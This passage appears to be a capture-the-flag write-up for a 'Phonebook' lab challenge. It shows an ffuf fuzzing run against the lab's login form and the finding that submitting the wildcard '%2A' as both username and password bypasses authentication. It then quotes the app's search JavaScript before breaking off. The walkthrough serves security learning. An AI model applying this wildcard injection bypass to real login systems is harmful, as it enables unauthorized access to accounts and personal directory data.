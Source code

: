        v1.3.1 Kali Exclusive <3
       
       
        :: Method           : POST
     :: URL              : http://159.65.59.85:31498/login
     :: Wordlist         : FUZZ: ./urlencoded_wordlist.txt
     :: Header           : Content-Type: application/x-www-form-urlencoded
     :: Data             : username=FUZZ&password=FUZZ
     :: Output file      : ffuf-output
     :: File format      : html
     :: Follow redirects : false
     :: Calibration      : false
     :: Timeout          : 10
     :: Threads          : 80
     :: Matcher          : Response status: 200,204,301,302,307,401,403,405
     :: Filter           : Response status: 307
     :: Filter           : Regexp: fail
    
    ________________________________________________
    
    [Status: 302, Size: 0, Words: 1, Lines: 1]                                                                                                                                                           
    | URL | http://159.65.59.85:31498/login
    | --> | /
        * FUZZ: %2A
    
    [Status: 302, Size: 0, Words: 1, Lines: 1]                                                                                                                                                           
    | URL | http://159.65.59.85:31498/login
    | --> | /login?message=Authentication%20Failed
    
       * FUZZ: 
Well that looks pretty definitive! 
We simply use %2A for both the username and password. This is the wildcard character (*). 

Success! We have bypassed the login and are in a phonebook app. 

![phonebook_app](/home/kali/Box_Notes/Challenges/Phonebook/phonebook_app.png)



### Phonebook App

The  source code reveals that the search bar is the only intended functionality.

```javascript
	function failure() {
      var content = '<p class="lead">No search results.</p>';
      $('#maindiv').append(content);
    };

    function success(data) {
      $("#maindiv").empty();

      if (data.length == 0) {
        failure();
        return;
      };

      var content = "<table>";
        data.forEach(function(item) {
          content += '<tr><td>' + item["cn"] + " " + item["sn"] + '</td><td>'+ item["mail"]  +'</td><td>'+ item["homePhone"] +'</td></tr>';
          console.log(item);
        });
      content += "</table>";
    $('#maindiv').append(content);
    };

    function search(form) {
```